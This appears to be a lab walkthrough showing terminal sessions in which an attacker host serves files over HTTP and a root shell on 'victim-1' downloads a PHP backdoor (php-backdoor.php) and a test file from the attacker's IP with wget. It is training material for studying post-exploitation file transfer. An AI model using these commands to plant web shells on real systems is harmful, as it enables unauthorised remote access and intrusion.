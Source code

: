 `Ctrl+b 0`

session 0

```
root@victim-1:/tmp# wget http://192.34.83.2/php-backdoor.php
wget http://192.34.83.2/php-backdoor.php
converted 'http://192.34.83.2/php-backdoor.php' (ANSI_X3.4-1968) -> 'http://192.34.83.2/php-backdoor.php' (UTF-8)
--2023-06-23 03:45:46--  http://192.34.83.2/php-backdoor.php
Connecting to 192.34.83.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2800 (2.7K) [application/octet-stream]
Saving to: 'php-backdoor.php'

     0K ..                                                    100%  611M=0s

2023-06-23 03:45:46 (611 MB/s) - 'php-backdoor.php' saved [2800/2800]

root@victim-1:/tmp# ls
ls
php-backdoor.php
```

Example 2

`Ctrl+b 1`

session 1

`Ctrl+b cc`

```
root@attackdefense:/usr/share/webshells/php# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.34.83.3 - - [23/Jun/2023 03:45:46] "GET /php-backdoor.php HTTP/1.1" 200 -
^C                
Keyboard interrupt received, exiting.
```

```
root@attackdefense:/usr/share/webshells/php# cd /root
root@attackdefense:~# echo "this is some test text" > test.txt
root@attackdefense:~# cat test.txt
this is some test text
root@attackdefense:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

`Ctrl+b 0`

session 0

```
root@victim-1:/tmp# wget http://192.34.83.2/test.txt
wget http://192.34.83.2/test.txt
converted 'http://192.34.83.2/test.txt' (ANSI_X3.4-1968) -> 'http://192.34.83.2/test.txt' (UTF-8)
--2023-06-23 03:52:37--  http://192.34.83.2/test.txt
Connecting to 192.34.83.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23 [text/plain]
Saving to: 'test.txt'

     0K                                                       100% 4.57M=0s

2023-06-23 03:52:37 (4.57 MB/s) - 'test.txt' saved [23/23]

root@victim-1:/tmp# ls
ls
```